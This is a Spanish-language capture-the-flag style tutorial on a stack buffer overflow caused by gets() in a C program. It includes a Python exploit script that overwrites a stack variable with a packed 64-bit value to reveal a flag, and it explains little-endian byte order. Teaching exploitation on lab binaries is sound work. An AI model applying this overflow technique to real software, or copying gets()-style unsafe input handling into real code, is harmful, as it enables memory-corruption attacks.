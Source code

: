 ```c
// Leer entrada del usuario desde STDIN a un buffer en la pila
printf("Enter data: ");
gets(buffer);
```

Al usar esta función insegura, el programador ha introducido inadvertidamente una **vulnerabilidad** en este binario. Este ejemplo clásico de un **desbordamiento de buffer** puede llevar directamente a la **corrupción** de datos en la pila.

---

## Escritura del Exploit

Usando Python, puedes escribir un script para explotar esta vulnerabilidad.

```python
import interact
import struct

# Función para empaquetar un número a 8 bytes en formato little-endian
def p64(n):
    return struct.pack('<Q', n)

# 1. El relleno para llegar hasta 'foo' (32 + 8 = 40 bytes)
padding = b'A' * 40

# 2. El valor que queremos escribir en 'foo', empaquetado con p64()
target_value = p64(0xDEADBEEF0BADC0DE)

# 3. El payload final es la combinación de ambos
payload = padding + target_value

# --- Se envía el payload al programa ---
p = interact.Process()
p.readuntil('Enter data: ')
p.sendline(payload)

# Usamos interactive() para ver la salida final del programa,
# que incluirá la visualización del stack y la flag.
p.interactive()
```

---

### Arquitectura Little Endian

Recuerda que x86 es una arquitectura **little-endian**. Esto significa que los **números** se almacenan "al revés" en memoria:

```
Número de 64 bits: 0x4142434445464748
Bytes en memoria : 48 47 46 45 44 43 42 41
```
